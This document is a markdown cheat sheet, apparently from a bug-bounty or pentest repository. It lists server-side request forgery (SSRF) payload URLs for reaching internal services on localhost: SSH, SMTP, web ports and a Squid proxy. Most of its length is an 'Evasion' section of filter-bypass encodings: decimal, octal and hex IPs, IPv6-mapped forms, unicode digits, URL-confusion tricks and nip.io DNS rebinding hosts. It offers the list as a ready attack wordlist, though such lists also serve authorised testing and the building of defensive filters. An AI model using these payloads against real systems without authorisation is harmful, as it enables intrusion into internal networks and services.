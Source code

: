 # Internal Port Scan

## OpenSSH

```
http://127.0.0.1:22
```

## SMTP

```
http://[::]:25/
```

## Web Server

```
http://127.0.0.1:443
http://127.0.0.1:80
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
```

### Evasion

Open Redirect.

```
http://localhost/?d=google.com
http://127.0.0.1/?d=google.com
```

```
http://127.1
http://127.0.1
http://127.1:80
http://0
http://0/
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433
http://017700000001
http://0x7f000001

http://google.com@127.0.0.1
http://127.0.0.1#google.com
http://google.com.127.0.0.1
http://127.0.0.1/google.com

https://google.com@127.0.0.1
https://127.0.0.1#google.com
https://google.com.127.0.0.1
https://127.0.0.1/google.com
https://127.0.0.1/?d=google.com
http://google.com@localhost
http://localhost#google.com
http://google.com.localhost
http://localhost/google.com
```

```
http://127.0.0.1%00google.com
http://127.0.0.1?google.com
http://127.0.0.1///google.com
https://127.0.0.1%00google.com
https://127.0.0.1?google.com
https://127.0.0.1///google.com
```

```
https://customer1.app.localhost.my.company.127.0.0.1.nip.io
mail.ebc.apple.com
127.0.0.1.nip.io
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
localhost:+11211aaa
localhost:00011211aaaa
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

```
http://bugbounty.dod.network
http://spoofed.burpcollaborator.net
```

## HTTP Proxy

Squid

```
http://[::]:3128/
```



---
## References

### Github

- [leetCipher: ssrf bypasses wordlist](https://github.com/leetCipher/bug-bounty-labs/blob/main/ssrf-with-dns-rebinding-lab/poc/ssrf-bypasses.txt)